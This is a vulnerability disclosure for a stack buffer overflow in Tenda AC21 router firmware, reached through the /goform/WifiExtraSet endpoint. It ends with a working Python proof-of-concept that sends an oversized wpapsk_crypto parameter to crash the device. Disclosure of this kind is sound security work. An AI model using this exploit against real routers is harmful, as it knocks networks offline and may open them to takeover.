

# CVE-2025-10838

## Submitter：林淦(Lingan) 罗熙(Luoxi)

## Submitter unit：广州大学 (Guangzhou University)

## Information


**Vendor of the products:**   Shenzhen Tenda Technology Co.,Ltd.

**Vendor's website:**https://www.tenda.com.cn/

**Affected products:** AC21

**Affected firmware version:** <= V16.03.08.16

**Firmware download address:** [AC21 升级软件_腾达Tenda官方网站](https://www.tenda.com.cn/material/show/3742)

### Overview

A buffer overflow vulnerability was discovered on the latest version of the Tenda AC21 router, V16.03.08.16, where an attacker sent a well-crafted http post packet to the request path /goform/WifiExtraSet, triggering a denial of service attack or even RCE, specifically via the function strcpy(tkip_aes, tkip_aes_1); because there is no bounds check on tkip_aes, causing a stack overflow

## Vulnerability details

It can be found that the values of the wl_mode and wifi_chkHz are taken here, and if the if judgment is met, you can enter the sub_45CD64 function


When var=1, it will enter the sub_45CAD8 function to perform subsequent operations


Subsequently, it will enter the sub_45BB10 function to execute the subsequent logic



When wpapsk_crypto is not tkip&aes, the strcpy function will be triggered to cause the buffer overflow


## POC

```py
import requests

def generate_overflow_data():
 
    padding = b"X" * 6
    
    exploit_data = padding 
    
    return exploit_data

def execute_overflow(url, data):
    # Prepare malicious request parameters
    attack_params = {
    "wifi_chkHz": "1",
    "wl_mode": "wisp",
    "wl_enbale": "1",        
    "ssid": "123456",
    "wpapsk_key": "1",
    "security": "wpapsk",
    "wpapsk_type": "wpa&wpa2",
    "wpapsk_crypto": b"a"*0x64,
    "mac": data         
}

   

    
    # Send the malicious request twice (as in original)
    server_response = requests.get(url, params=attack_params)
    server_response = requests.get(url, params=attack_params)
  
    
    # Display server response
    print("HTTP Status:", server_response.status_code)
    print("Response Content:", server_response.text)

if __name__ == "__main__":
    # Target endpoint
    target_url = "http://192.168.102.145/goform/WifiExtraSet"
    
    # Generate overflow payload
    malicious_payload = generate_overflow_data()
    
    # Execute the attack
    execute_overflow(target_url, malicious_payload)
```


